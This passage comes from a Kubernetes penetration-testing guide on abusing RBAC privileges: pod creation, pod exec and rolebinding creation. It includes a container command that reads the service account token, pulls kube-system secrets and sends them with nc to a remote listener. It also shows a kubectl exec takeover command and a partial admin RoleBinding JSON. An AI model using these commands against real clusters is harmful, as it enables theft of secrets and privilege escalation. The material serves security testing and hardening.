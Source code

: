 ```yaml
        image: alpine
        command: ["/bin/sh"]
        args: ["-c", 'apk update && apk add curl --no-cache; cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" https://192.168.154.228:8443/api/v1/namespaces/kube-system/secrets; } | nc -nv 192.168.154.228 6666; sleep 100000']
```

In line 6 you can find the object “spec” and children objects such as “**template**” in line 10. These objects hold the configuration for the task we wish to accomplish. Another thing to notice is the "**serviceAccountName**" in line 15 and the “**containers**” object in line 18. This is the part that relates to creating our malicious container.

Kubernetes API documentation indicates that the “**PodTemplateSpec**” endpoint has the option to create containers. And, as you can see: **deployment,** **daemonsets, statefulsets, replicationcontrollers, replicasets, jobs and cronjobs can all be used to create pods**:

![](https://www.cyberark.com/wp-content/uploads/2019/08/Kube-Pentest-Fig-8.png)

**So, the privilege to create or update tasks can also be abused for privilege escalation in the cluster.**

### **Pods Exec**

**Pod exec** is an option in kubernetes used for **running commands in a shell inside a pod**. This privilege is meant for administrators who want to **access containers and run commands**. It’s just like creating a SSH session for the container.

If we have this privilege, we actually get the ability **to take control of all the pods**. In order to do that, we needs to use the following command:

```bash
kubectl exec -it <POD_NAME> -n <NAMESPACE> -- sh
```

Note that as you can get inside any pod, you can abuse other pods token just like in [**Pod Creation exploitation**](hardening-roles-clusterroles.md#pod-creation) to try to escalate privileges.

### **Get/Patch Rolebindings**

The privilege to create Rolebindings allows a user to **bind roles to a service account**. This privilege can potentially lead to privilege escalation because it **allows the user to bind admin privileges to a compromised service account.**

The following ClusterRole is using the special verb _bind_ that allows a user to create a RoleBinding with _admin_ ClusterRole (default high privileged role) and to add any user, including itself, to this admin ClusterRole.

![](https://www.cyberark.com/wp-content/uploads/2018/12/clusterRole\_with\_bind\_verb.png)

Then it's possible to create **`malicious-RoleBinging.json`**, which **binds the admin role to other compromised service account:**

```javascript
{
    "apiVersion": "rbac.authorization.k8s.io/v1",
    "kind": "RoleBinding",
    "metadata": {
        "name": "malicious-rolebinding",
        "namespaces": "default"
    },
    "roleRef": {
        "apiGroup": "*",
        "kind": "ClusterRole",
        "name": "admin"
    },
    "subjects": [
        {
```